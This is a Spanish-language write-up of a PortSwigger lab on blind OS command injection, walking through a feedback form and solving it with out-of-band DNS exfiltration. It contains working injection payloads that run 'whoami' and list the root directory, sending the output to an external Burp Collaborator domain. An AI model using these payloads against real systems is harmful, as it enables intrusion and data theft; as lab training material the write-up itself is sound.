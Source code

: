 ```yaml
---
title: OS Command Injection Lab 5
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with out-of-band data exfiltration
image:
  path: /assets/img/OS-Command-Injection-Lab-5/Portswigger.png
---
```


## Skills

- Blind OS command injection with out-of-band data exfiltration

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, es posible desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos ejecutar el `comando` `whoami` y exfiltra su `salida` mediante una `consulta DNS` a `Burp Collaborator`. Necesitaremos introducir el `nombre` del `usuario` actual para completar el `laboratorio`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-5/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-5/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-5/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-5/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||nslookup+`whoami`.s6z1cmuo54u5lsajrthrckwd84ev2sqh.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS` con el `output` del comando `whoami`

![](/assets/img/OS-Command-Injection-Lab-5/image_5.png)

Si necesitamos obtener más de una línea podemos usar este otro `payload` de `Hacktricks` [https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration](https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration)

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||for+i+in+$(ls+/);+do+host+"$i.4gldmy40fg4hv4kv15r3mw6pigo7c50u.oastify.com";+done||&subject=test&message=test
```

Pulsamos en `Submit solution` e `introducimos` el nombre de usuario `peter-qflr5j`

![](/assets/img/OS-Command-Injection-Lab-5/image_6.png)
